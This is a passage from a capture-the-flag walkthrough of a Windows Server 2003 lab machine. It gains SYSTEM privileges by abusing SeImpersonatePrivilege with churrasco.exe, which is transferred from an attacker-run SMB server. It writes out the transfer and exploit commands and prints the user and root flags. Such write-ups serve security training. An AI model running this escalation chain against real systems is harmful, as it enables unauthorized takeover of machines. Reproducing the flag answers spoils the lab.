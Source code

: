 ![[Granny-13.png]]

cool, SeImpersonatePrivilege is Enabled.

Seeing that we have the SeimpersonatePrivilege enabled on this account is key, as it means we can probably used a method called Token Hijacking. Basically, Server 2003 allows for the NETWORK SERVICE and LOCAL SERVICE accounts to impersonate the SYSTEM account, if this privilege is enabled. 

The well-known exploit for this attack is called churrasco.exe.

https://github.com/Re4son/Churrasco/blob/master/churrasco.exe

### Using smbserver transfer file
```bash
# Launch an SMB server, will allow us to easily get the exe onto the target
sudo impacket-smbserver kali .
```

![[Granny-14.png]]

Download the binary file to local folder. On the target, we need to create the `C:\temp` directory with the below commands. This gives us a writable location to work from.

```cmd
cd C:\
mkdir temp
cd temp
```

we can download the file from the SMB server with:

```bash
copy \\10.10.14.14\kali\churrasco.exe
# run the exploit test
churrasco.exe -d "whoami"
```

![[Granny-15.png]]

Cool, we execute the "whoami" as NT Authority prvilege. Let's create a reverse shell binary file.

```bash
# run the binary as system privilege
churrasco.exe -d "cmd"
```

![[Granny-16.png]]
Sure, we get the NT Authority System Privilege! Let's type root and user flag.

```bash
cd C:\Documents and Settings\Lakis\Desktop
type user.txt
# user flag
700c5dc163014e22b3e408f8703f67d1
```

![[Granny-17.png]]

```bash
cd C:\Documents and Settings\Administrator\Desktop
type root.txt
# flag
aa4beed1c0584445ab463a6747bd06e9
```

![[Granny-18.png]]

